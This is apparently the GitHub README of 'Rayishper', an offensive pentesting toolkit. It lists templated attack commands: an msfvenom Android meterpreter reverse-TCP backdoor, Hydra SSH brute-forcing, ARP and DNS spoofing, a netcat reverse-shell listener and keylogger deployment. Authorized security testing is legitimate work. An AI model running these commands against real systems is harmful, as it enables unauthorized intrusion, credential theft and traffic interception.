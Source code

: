 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
cd rayishper

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John the Ripper: For password cracking.
Social Engineering Toolkit (SET): For social engineering attacks.

## Usage
## To run Rayishper:
./rayishper.py

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.

## Commands Overview

Below is a summary of the main commands used within Rayishper:

VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py

Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.